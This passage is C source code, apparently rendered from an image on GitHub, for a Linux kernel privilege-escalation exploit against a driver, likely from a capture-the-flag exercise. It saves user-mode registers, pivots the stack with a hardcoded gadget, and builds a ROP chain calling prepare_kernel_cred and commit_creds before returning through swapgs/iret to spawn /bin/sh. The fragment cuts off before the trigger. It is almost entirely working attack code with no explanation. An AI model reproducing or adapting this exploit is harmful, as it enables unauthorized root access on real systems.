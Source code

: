 ```c
};
unsigned long user_cs,user_ss,user_eflags,user_sp;
void save_stats() {
    asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "movq %%rsp, %3\n"
        "pushfq\n"
        "popq %2\n"
        :"=r"(user_cs), "=r"(user_ss), "=r"(user_eflags),"=r"(user_sp)
        :
        : "memory"
    );
}

void get_shell(){
    system("/bin/sh");
}
int main(){
    //stack pivot gadget
    unsigned long xchg_esp_eax = 0xffffffff810d7f38UL; //xchg eax, esp ; ret 0x14ff
    //gadgets:
    unsigned long prepare_kernel_cred = 0xffffffff81092850UL;
    unsigned long commit_cred = 0xffffffff81092550UL;
    unsigned long pop_rdi = 0xffffffff8119e39dUL;     //pop rdi ; ret
    unsigned long pop_rdx = 0xffffffff81122a0dUL;     //pop rdx ; ret
    unsigned long mov_rdi_rax_call_rdx = 0xffffffff810363c1UL;  ////mov rdi, rax ; call rdx
    unsigned long swapgs_pop_ebp = 0xffffffff81051744UL;        //swapgs ; pop rbp ; ret
    unsigned long iret = 0xffffffff8168e3f4UL;          //iretd ; int 0x81
    //new stack addr from xchg esp,eax
    //eax from req.offset
    unsigned long stack_addr = 0x810d7f38UL;
    //rop gadget in new stack addr
    unsigned long mmap_addr = stack_addr & 0xffff0000;
    unsigned long *fake_stack;
    void *mmapd_addr;
    struct drv_req req;
    int fd;
    req.offset = 2305843009148791679;
    save_stats();
    //mmap addr:
    mmapd_addr = mmap((void *)mmap_addr,0x1000000,7,0x32,0,0);
    fprintf(stdout,"stack_addr:0x%lx\n",stack_addr);
    fprintf(stdout,"mmapd_addr:0x%lx\n",(unsigned long)mmapd_addr);
    fake_stack = (unsigned long*)stack_addr;
    fprintf(stdout,"fake_stack_addr:0x%lx\n",fake_stack);
    *fake_stack = pop_rdi;
    //switch rsp
    fake_stack = (unsigned long*)(stack_addr - 0x62a1);
    fprintf(stdout,"fake_stack_addr:0x%lx\n",fake_stack);
    *fake_stack++ = 0UL;
    *fake_stack++ = prepare_kernel_cred;
    *fake_stack++ = pop_rdx;
    *fake_stack++ = pop_rdx;
    *fake_stack++ = mov_rdi_rax_call_rdx;
    *fake_stack++ = commit_cred;
    *fake_stack++ = swapgs_pop_ebp;
    *fake_stack++ = 0xdeadbeafUL;
    *fake_stack++ = (unsigned long)get_shell;
    *fake_stack++ = user_cs;
    *fake_stack++ = user_eflags;
    *fake_stack++ = user_sp;
    *fake_stack++ = user_ss;
```